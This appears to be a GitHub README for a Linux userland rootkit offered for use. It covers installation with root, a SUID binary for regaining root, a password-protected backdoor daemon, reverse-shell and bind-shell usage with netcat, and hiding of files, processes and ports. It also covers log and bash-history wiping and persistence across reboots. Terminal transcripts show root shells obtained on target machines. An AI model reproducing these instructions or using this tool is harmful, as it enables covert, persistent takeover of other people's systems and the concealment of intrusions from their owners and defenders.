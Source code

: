 <h2>BDS Linux Userland Rootkit</h2>
<br>
Developed by : Antonius
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter : https://twitter.com/bluedragonsec
<p>
<h3>Features : </h3>
<ul>
  <li>Hides files and directories</li>
  <li>Hides process</li>
  <li>Hides bind shell port, bds daemon port and reverse shell port from netstat</li>
  <li>Rootkit persistence to survive after reboot</li>
  <li>cleans logs and bash history during installation</li>
</ul>
</p>

<p>
<h3>Installation</h3>
You need root privilege for installing this rootkit.
<br>
In case you have installed gcc, install it by running the installer script:
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed gcc, install it by running the installer script :
<pre>
./install.sh
</pre>
</p>

<p>
<h3>Using the Rootkit</h3>
</p>

<p>
<br>
  <h4>Privilege Escalation</h4>
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
<br>
<b>/opt/bds_elf/bds_suid</b>
<br>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ /opt/bds_elf/bds_suid
root@robotsoft:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
root@robotsoft:~# 
</pre>
</p>

<p>
<br>
<h4>Using the Rootkit Daemon</h4>
<br>
Rootkit built in daemon is listening on port 31335, default password is : bluedragonsec.
Using the rootkit built in daemon, you can issue a reverse shell connection and executing linux command on target machine (which you have installed rootkit) remotely.
  To connect  to rootkit daemon, open your terminal and type :
  <pre>
  nc "target ip" 31335
  </pre>
<br>
Example : 
<br>
You have installed bds userland on ip address 192.168.43.36 , open terminal and type:
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :
</pre>
Type any linux command in cmd prompt
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
Password :bluedragonsec
CMD :id
uid=0(root) gid=0(root) groups=0(root)
CMD :uname -a
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
CMD :pwd
/
CMD :
</pre>    
</p>

<p>
<br>
<h4>Activating Reverse Shell</h4>
<br>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then connect to bds daemon on your target server (with rootkit installed) on port 31335.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and connect to target server on port 31335 :
<pre>
nc server ip 31335
then type : 
/opt/bds_elf/bds_bc "your ip address"
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example :
<br>
Server ip address with rootkit installed is at 192.168.43.36, your local machine ip is at 192.168.43.230.
Open terminal on your local machine and set up port listener on port 31337:
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Open another terminal and connect to daemon on target machine (which you have installed rootkit) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :/opt/bds_elf/bds_bc 192.168.43.230
CMD :
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
root@robotsoft:~# nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.43.36 42012
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>
<p>
<br>
<h4>Connecting to Bind Shell Port</h4>
<br>
Bind shell port on server (which you have installed rootkit) is at port 31337, the password is <b>bluedragonsec</b></b>.
You can connect to bind shell port using netcat :
<pre>
nc "server ip address" 31337
then type the password : bluedragonsec  
</pre>
Example :
<br>
Server ip address (with bds userland rootkit installed) is at 192.168.43.36.
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31337
Password :bluedragonsec
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>

<p>
<br>
<h4>Hiding Files and Directories</h4>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>

<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>

<p>
<br>
  <h4>Process Hiding</h4>
<br>
This rootkit hides bind shell process, reverse shell process and rootkit built-in daemon process.
</p>

<p>
<br>
<h4>Port Hiding</h4>
<br>
This rootkit hides bind shell port, reverse shell port and rootkit built-in daemon port.
</p>

<p>
<br>
<h4>Persistence</h4>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 2 minutes, the rootkit will be activated.
</p>



